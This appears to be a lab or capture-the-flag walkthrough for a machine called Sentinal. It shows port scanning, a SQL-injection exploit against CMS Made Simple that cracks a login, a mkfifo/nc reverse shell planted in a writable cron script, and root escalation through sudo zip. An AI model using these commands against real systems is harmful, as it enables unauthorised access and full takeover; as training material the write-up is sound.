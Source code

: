 # Exploitation Guide for Sentinal

## Enumeration

We start the enumeration process with a simple Nmap scan:
```
kali@kali:~/# nmap 192.168.83.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 03:54 EDT
Nmap scan report for 192.168.83.150
Host is up (0.00041s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
We find port 80 is open and visit it in our browser as a first step. On the page we find apache default home page. 
Checking /robots.txt and source code don't giveus anything. So let's start directory bruteforcing using dirb.

```
root@sentinal-VirtualBox:~# dirb http://192.168.83.150 -X .txt
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Sat Sep 19 05:49:57 2020
URL_BASE: http://192.168.83.150/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://192.168.83.150/ ----
+ http://192.168.83.150/note.txt (CODE:200|SIZE:151)                                                                                                                                                                                      
-----------------
END_TIME: Sat Sep 19 05:49:59 2020
DOWNLOADED: 4612 - FOUND: 1
```

We find a hidden note.txt that says
```
Dear Developers,

Our website is moved to sentinal.com
Do login into the panel, configure the website and start building project.

Thank you
sys admin
```


It is running an virtual host of sentinal.com
So we have to add sentinal.com in /etc/hosts
```
kali@kali:~# nano /etc/hosts
192.168.83.150  sentinal.com
```

## Exploitation

On visiting sentinal.com in our browser, we find it is running `CMS Made Simple v2.2.9`.
Searching for an exploit, we find it is vulnerable to SQL injection.
```
Cmsms < 2.2.10 SQL Injection
https://www.exploit-db.com/exploits/46635
```
Before running the script make sure following packages are installed
```
	apt install python-pip
	pip install requests
	pip install setuptools
	pip install termcolor
```
Execute the script with a wordlist to bruteforce
```
python 46635.py -u http://sentinal.com -w /opt/rockyou.txt --crack 

[+] Salt for password found: 551c92a536111490
[+] Username found: juniordev
[+] Email found: juniordev@sentinal.com
[+] Password found: a25bb9e6782e7329c236d2538dd4f5ac
[+] Password cracked: passion
```
We get a username `juniordev` and a password `passion`.
Now we can use this creds to SSH login to the system
```
ssh juniordev@192.168.83.150
password: passion

juniordev@sentinal: whoami
juniordev
```
## User Escalation

Looking at the /etc/crontab we find there is a cronjob run by user sentinal every minute
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * sentinal /home/sentinal/Pictures/sentinal.sh
```


Going to /home/sentinal/Pictures and checking file permissions on senitnal.sh we find it is writable by user juniordev
```
juniordev@sentinal:/home/sentinal/Pictures$ ls -la
total 12
drwxr-xr-x  2 sentinal sentinal 4096 Sep 19 05:42 .
drwxr-xr-x 17 sentinal sentinal 4096 Sep 19 08:09 ..
-rwxrwxrw-  1 sentinal sentinal   76 Sep 19 08:12 sentinal.sh
```
Adding a reverse shell in sentinal.sh and getting a shell as user sentinal
```	
juniordev@sentinal:/home/sentinal/Pictures$ nano sentinal.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.6.2 920 >/tmp/f
```
```
kali@kali: nc -nvlp 920
listening on [any] 920 ...
192.168.83.150: inverse host lookup failed: Unknown host
connect to [kali] from (UNKNOWN) [192.168.83.150] 55428
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
sentinal@sentinal: whoami
sentinal
```

## Root Escalation

User sentinal can run /bin/zip as sudo
```
sentinal@sentinal:~$ sudo -l
sudo -l
Matching Defaults entries for sentinal on sentinal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sentinal may run the following commands on sentinal:
    (ALL) NOPASSWD: /bin/zip
```
zip binary has an unzip-command argument that can be used to run arbitary commands on the system 
```
sudo /bin/zip /tmp/kunal.zip /tmp/ -T --unzip-command="sh -c /bin/bash"
```
Another way to exploit zip binary is using gtfobins
```
sudo /usr/bin/zip mktemp -T -TT 'bash #'
```
And we are root
# id
id
uid=0(root) gid=0(root) groups=0(root)

	

